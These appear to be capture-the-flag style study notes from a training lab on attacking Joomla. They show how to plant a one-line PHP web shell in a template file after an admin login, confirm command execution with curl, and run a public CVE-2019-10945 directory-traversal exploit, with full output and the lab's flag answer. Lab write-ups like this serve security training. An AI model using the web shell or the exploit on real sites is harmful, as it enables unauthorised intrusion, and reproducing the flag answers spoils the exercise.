 ```yaml
---
description: >-
  Joomla has had its fair share of vulnerabilities against the core application
  and vulnerable extensions. (possible to gain remote code execution if we can
  log in to the admin backend.)
---
```


# Attacking Joomla

## Abusing Built-In Functionality

Log in to the admin control panel using credentials found whether by leak or brute force. After logging in&#x20;

we would like to add a snippet of PHP code to gain RCE. We can do this by customizing a template.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/joomla_admin.png" alt=""><figcaption><p>Control Panel</p></figcaption></figure>

Access Templates (Under Configuration)

<figure><img src="https://academy.hackthebox.com/storage/modules/113/joomla_templates.png" alt=""><figcaption></figcaption></figure>

Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/joomla_customise.png" alt=""><figcaption><p>Choose page from the left panel</p></figcaption></figure>

<figure><img src="https://academy.hackthebox.com/storage/modules/113/joomla_edited.png" alt=""><figcaption><p>error.php</p></figcaption></figure>

add the following to the php file.

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

click on `Save & Close` at the top and confirm code execution using `cURL`.

```shell-session
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Leveraging Known Vulnerabilities

* Most of the Joomla related vulerabilities are Joomla extensions
* Find vulnerabilities specific to the version running on the target

For our example, the Joomla is vulerable to [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945) which is a directory traversal and authenticated file deletion vulnerability.

The exploit can be found [here](https://github.com/dpgg101/CVE-2019-10945).

```shell-session
python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt
```

## Assessment

Leverage the directory traversal vulnerability to find a flag in the web root of the http://dev.inlanefreight.local/ Joomla application

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption><p>3.9.4</p></figcaption></figure>

```
python3 CVE-2019-10945.py --url=http://dev.inlanefreight.local/administrator --username=admin --password=admin --dir=/                                   
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
flag_6470e394cbf6dab6a91682cc8585059b.txt
htaccess.txt
index.php
robots.txt
web.config.txt
```

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption><p>j00mla_c0re_d1rtrav3rsal!</p></figcaption></figure>
